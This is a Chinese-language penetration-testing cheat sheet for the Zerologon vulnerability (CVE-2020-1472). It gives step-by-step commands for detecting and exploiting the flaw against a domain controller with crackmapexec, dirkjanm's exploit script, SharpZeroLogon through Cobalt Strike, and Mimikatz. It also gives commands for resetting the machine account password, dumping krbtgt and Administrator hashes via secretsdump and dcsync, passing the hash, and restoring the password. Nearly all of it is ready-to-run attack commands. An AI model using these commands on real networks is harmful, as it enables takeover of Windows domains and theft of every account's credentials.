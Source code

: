 #### 检测
  	crackmapexec smb 10.10.10.10 -u username -p password -d domain -M zerologon
#### cve-2020-1472-exploit.py- 来自dirkjanm的 Python 脚本
	git clone https://github.com/dirkjanm/CVE-2020-1472.git
	激活一个虚拟环境来安装impacket
	>python3 -m venv venv
	>source venv/bin/activate
	>pip3 install .
	>proxychains python3 cve-2020-1472-exploit.py DC01 172.16.1.5
	查找 DC 的旧 NT 哈希
	>proxychains secretsdump.py -history -just-dc-user 'DC01$' -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'CORP/DC01$@DC01.CORP.LOCAL'
	从 secretsdump 恢复密码
	将本地注册表机密转储到最新版本时,secretsdump 将自动转储明文机器密码（十六进制编码）
	python restorepassword.py CORP/DC01@DC01.CORP.LOCAL -target-ip 172.16.1.5 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3
	deactivate
#### nccfsas- Cobalt Strike 的执行程序集的 .NET 二进制文件
	>git clone https://github.com/nccgroup/nccfsas
	检查
	>execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local
	重置机器账户密码
	>execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -reset
	从一个没加入域的机器测试
	>execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -patch
#### Mimikatz- 2.2.0 20200917 zerologon
  	privilege::debug
	检查
	lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$
	执行，并且设置密码为空
	lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$ /exploit
	执行dcsync导出hash
	lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:krbtgt /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm
	lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:Administrator /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm
	PTH
	sekurlsa::pth /user:Administrator /domain:LAB /rc4:HASH_NTLM_ADMIN
	使用 IP 地址代替FQDN 用 Windows API 来强制 NTLM
	重置密码为Waza1234/Waza1234/Waza1234/
	# https://github.com/gentilkiwi/mimikatz/blob/6191b5a8ea40bbd856942cbc1e48a86c3c505dd3/mimikatz/modules/kuhl_m_lsadump.c#L2584
	lsadump::postzerologon /target:10.10.10.10 /account:DC01$